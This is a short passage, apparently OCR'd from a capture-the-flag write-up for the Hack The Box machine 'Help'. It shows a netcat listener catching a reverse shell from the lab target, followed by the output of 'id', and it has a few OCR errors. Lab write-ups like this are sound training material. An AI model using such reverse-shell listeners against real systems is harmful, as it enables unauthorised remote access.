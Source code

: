 ![](Maszyny/Linux/Help/Pasted%20image%2020210831222136.png)

-(kali kali)-[/htb/help]
rlwrap nc - vnp 9000
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on ::: 9000
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 10.10.10.121.
Ncat: Connection from 10.10.10.121:35402.
SOCKET: Shell has connected! PID: 1690
id
uid=1000(help) gid=1000(help) groups=1000(help), 4(adm), 24(cdrom), 30(dip), 33(ww-data),46(plugdev), 114(lpa
dmin), 115(sambashare)
